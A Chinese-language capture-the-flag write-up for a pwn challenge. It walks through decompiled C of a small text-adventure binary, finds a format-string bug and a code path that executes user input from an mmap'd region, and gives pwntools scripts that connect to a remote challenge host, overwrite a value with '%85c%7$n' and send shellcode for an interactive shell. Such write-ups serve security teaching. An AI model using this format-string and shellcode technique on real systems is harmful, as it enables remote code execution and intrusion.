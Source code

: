 
```c

__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  _DWORD *v3; // rax
  __int64 v5; // [rsp+18h] [rbp-78h]

  setbuf(stdout, 0LL);
  alarm(0x3Cu);
  sub_400996();
  v3 = malloc(8uLL); // long long 64bit. 8 bytes.
  v5 = (__int64)v3;
  *v3 = 68;
  v3[1] = 85;
  puts("we are wizard, we will give you hand, you can not defeat dragon by yourself ...");
  puts("we will tell you two secret ...");
  printf("secret[0] is %x\n", v5); // 输出v3地址
  printf("secret[1] is %x\n", v5 + 4); // 输出v3+4的地址
  puts("do not tell anyone ");
  sub_400D72(v5);
  puts("The End.....Really?");
  return 0LL;
}

```

```c
unsigned __int64 __fastcall sub_400D72(__int64 a1)
{
  char s; // [rsp+10h] [rbp-20h]
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("What should your character's name be:");
  _isoc99_scanf((__int64)"%s", (__int64)&s);
  if ( strlen(&s) <= 0xC ) // 名字小于12进入
  {
    puts("Creating a new player.");
    sub_400A7D();
    sub_400BB9();
    sub_400CA6((_DWORD *)a1);
  }
  else
  {
    puts("Hei! What's up!");
  }
  return __readfsqword(0x28u) ^ v3;
}
```
__名字小于12进入3个函数__
```c
unsigned __int64 sub_400A7D()
{
  char s1; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(" This is a famous but quite unusual inn. The air is fresh and the");
  puts("marble-tiled ground is clean. Few rowdy guests can be seen, and the");
  puts("furniture looks undamaged by brawls, which are very common in other pubs");
  puts("all around the world. The decoration looks extremely valuable and would fit");
  puts("into a palace, but in this city it's quite ordinary. In the middle of the");
  puts("room are velvet covered chairs and benches, which surround large oaken");
  puts("tables. A large sign is fixed to the northern wall behind a wooden bar. In");
  puts("one corner you notice a fireplace.");
  puts("There are two obvious exits: east, up.");
  puts("But strange thing is ,no one there.");
  puts("So, where you will go?east or up?:");
  while ( 1 )
  {
    _isoc99_scanf((__int64)"%s", (__int64)&s1);
    if ( !strcmp(&s1, "east") || !strcmp(&s1, "east") )
      break;
    puts("hei! I'm secious!");
    puts("So, where you will go?:");
  }
  if ( strcmp(&s1, "east") )
  {
    if ( !strcmp(&s1, "up") )
      sub_4009DD();
    puts("YOU KNOW WHAT YOU DO?");
    exit(0);
  }
  return __readfsqword(0x28u) ^ v2;
}

```

__如果输入east就会返回，否则就会进入sub_4009DD()，然后无论如何都会结束程序。__

sub_400BB9()

```c
unsigned __int64 sub_400BB9()
{
  int v1; // [rsp+4h] [rbp-7Ch]
  __int64 v2; // [rsp+8h] [rbp-78h]
  char format; // [rsp+10h] [rbp-70h]
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v2 = 0LL;
  puts("You travel a short distance east.That's odd, anyone disappear suddenly");
  puts(", what happend?! You just travel , and find another hole");
  puts("You recall, a big black hole will suckk you into it! Know what should you do?");
  puts("go into there(1), or leave(0)?:");
  _isoc99_scanf((__int64)"%d", (__int64)&v1);
  if ( v1 == 1 )
  {
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    _isoc99_scanf((__int64)"%ld", (__int64)&v2);
    puts("And, you wish is:");
    _isoc99_scanf((__int64)"%s", (__int64)&format);
    puts("Your wish is");
    printf(&format);
    puts("I hear it, I hear it....");
  }
  return __readfsqword(0x28u) ^ v4;
}
```

输入east之后就会进入这个函数。可以看到有一个格式字符串漏洞。

sub_400CA6()

```c
unsigned __int64 __fastcall sub_400CA6(_DWORD *a1)
{
  void *v1; // rsi
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!");
  puts("Dragon say: HaHa! you were supposed to have a normal");
  puts("RPG game, but I have changed it! you have no weapon and ");
  puts("skill! you could not defeat me !");
  puts("That's sound terrible! you meet final boss!but you level is ONE!");
  if ( *a1 == a1[1] )
  {
    puts("Wizard: I will help you! USE YOU SPELL");
    v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
    read(0, v1, 0x100uLL);
    ((void (__fastcall *)(_QWORD))v1)(0LL);
  }
  return __readfsqword(0x28u) ^ v3;
}
```

sub_400BB9()返回之后会进入这个函数并且这个函数还有一个参数。分析可知这个参数指向的地址是main函数中*v3指向的地址。当*v3==*v3+4时会调用一个mmap()函数通过查阅相关资料可以发现这个函数给我们分配了一个长度为0x1000的内存空间，并且这个空间是可以执行代码的。之后还调用通过函数指针访问这个地址。也就是说会执行这段内存空间中的代码。

## 0X01 利用过程

函数sub_400BB9()内的v2是我们输入的v4的地址，我们需要知道v2在栈内的位置，这样才能通过 %?$n 向v2指向的地址处写入字符串长度。

在main()函数中将*v3赋值为68*v3+4赋值为85，要想修改*v3指向地址的值只能通过格式化字符串漏洞来修改。所以先确定偏移量。

```python
#查看sub_400BB9()栈内情况
from pwn import *
p=remote('124.126.19.106','49759')
context(arch='amd64', os='linux', log_level='debug')
p.recvuntil('secret[0] is ')
v4_addr = int(p.recvuntil('\n')[:-1], 16)
p.sendlineafter("What should your character's name be:", 'cxk')
p.sendlineafter("So, where you will go?east or up?:", 'east')
p.sendlineafter("go into there(1), or leave(0)?:", '1')
p.sendlineafter("'Give me an address'", str(int(v4_addr)))
p.sendlineafter("And, you wish is:",'AAAA'+'-%p'*10)
p.recvuntil('I hear it')
```

![Alt text](pwn_100_NUAACTF_string.md1.png)

上上图选中处，0xc23010是v2的内容，因为v2在format(就是许下的愿望wish)的前面一位，而通过0x41414141(A的ascii是0x41)

（图中是0x2d70252d41414141，是因为这是64位程序）可以找到format的起始位置。v2是栈内第7个参数。

可以看到偏移量是8，偏移量为7处为上一次输入的数值。因为在主函数中给出了*v3的地址，

只需要将*v3的地址在格式化字符串之前输入就可以通过%85c%7$n修改*v3的值。最后输入一段shellcode到mmap()分配的内存空间中就可以完成getshell。

所以wish就写成 %85c%7$n ，作用是将85写入栈内第7个参数所指向的地址。
```python
# shellcode
from pwn import *
p=remote('124.126.19.106','49759')

context(arch='amd64', os='linux', log_level='debug')
p.recvuntil('secret[0] is ')
v4_addr = int(p.recvuntil('\n')[:-1], 16)
p.sendlineafter("What should your character's name be:", 'cxk')
p.sendlineafter("So, where you will go?east or up?:", 'east')
p.sendlineafter("go into there(1), or leave(0)?:", '1')
p.sendlineafter("'Give me an address'", str(int(v4_addr)))
# %85c%7$n ，作用是将85写入栈内第7个参数所指向的地址
# %85c 输出了85个字符，再用 %7$n 将第七个参数的位置写成了85
p.sendlineafter("And, you wish is:", '%85c%7$n') 
# gdb.attach(sh)
shellcode = asm(shellcraft.sh())
p.sendlineafter("USE YOU SPELL", shellcode)
p.interactive()
```


